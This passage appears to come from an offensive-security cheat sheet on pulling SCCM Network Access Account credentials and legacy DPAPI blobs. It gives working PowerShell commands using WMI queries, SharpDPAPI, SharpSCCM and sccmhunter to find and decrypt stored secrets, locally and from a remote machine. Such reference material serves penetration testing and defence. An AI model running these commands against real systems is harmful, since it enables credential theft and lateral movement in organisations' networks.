 **Exploitation**:

* Find SCCM blob

    ```ps1
    Get-Wmiobject -namespace "root\ccm\policy\Machine\ActualConfig" -class "CCM_NetworkAccessAccount"
    NetworkAccessPassword : <![CDATA[E600000001...8C6B5]]>
    NetworkAccessUsername : <![CDATA[E600000001...00F92]]>
    ```

* Using [GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI/blob/81e1fcdd44e04cf84ca0085cf5db2be4f7421903/SharpDPAPI/Commands/SCCM.cs#L208-L244)

    ```ps1
    $str = "060...F2DAF"
    $bytes = for($i=0; $i -lt $str.Length; $i++) {[byte]::Parse($str.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber); $i++}
    $b64 = [Convert]::ToBase64String($bytes[4..$bytes.Length])
    .\SharpDPAPI.exe blob /target:$b64 /mkfile:masterkeys.txt    
    ```

* Using [Mayyhem/SharpSCCM](https://github.com/Mayyhem/SharpSCCM) for SCCM retrieval and decryption

    ```ps1
    .\SharpSCCM.exe local secrets -m wmi
    ```

From a remote machine.

* Using [garrettfoster13/sccmhunter](https://github.com/garrettfoster13/sccmhunter)

    ```ps1
    python3 ./sccmhunter.py http -u "administrator" -p "P@ssw0rd" -d internal.lab -dc-ip 10.10.10.10. -auto
    ```

### CRED-4 Extract legacy credentials stored as DPAPI blobs

* [Misconfiguration-Manager - CRED-4](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-4/cred-4_description.md)

**Requirements**:

* Local administrator privileges on an SCCM client

**Exploitation**:

* Search the database using `SharpDPAPI`

    ```ps1
    .\SharpDPAPI.exe search /type:file /path:C:\Windows\System32\wbem\Repository\OBJECTS.DATA
    ```

* Search the database using `SharpSCCM`

    ```ps1
    .\SharpSCCM.exe local secrets -m disk
    ```
